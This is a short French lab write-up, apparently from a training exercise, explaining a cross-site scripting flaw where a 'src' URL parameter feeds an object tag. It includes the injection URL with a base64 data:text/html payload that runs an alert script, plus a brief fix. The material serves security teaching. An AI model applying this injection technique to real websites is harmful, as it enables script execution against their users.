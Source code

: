 # Explications
Dans la page "Index", il y une image cliquable avec le logo de la nsa qui nous envoie sur la page "media". On peut observer dans l'url un élément GET "**src=nsa**".
Si l'on change nsa par test, comme ceci :
<pre><code>http://IP/index.php?page=media&src=test</code></pre>
On observe que ce n'est plus la même image qui est chargée dans la page, de plus on observe dans le code de la paghe 

```html
<tr style="background-color:transparent;border:none;">
	<td style="vertical-align:middle;">
		<object data="test"></object>
	</td>
</tr>
```
L'objet chargé dépend donc du GET de l'URL. On peut donc injecter du code grâce a cela dans le site  de la maniere suivante.

<pre><code>http://IP/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGFja2VkIik8L3NjcmlwdD4=</code></pre>
```html
data:text/html;base64 => Sert a indiquer le type du text qui suis.
<script>alert("hacked")</script> en base 64 : PHNjcmlwdD5hbGVydCgiaGFja2VkIik8L3NjcmlwdD4=
```

# Comment l'éviter ?
Il suffit de mettre la source de l'image directement dans le code plutot que de l'envoyer en paramètre GET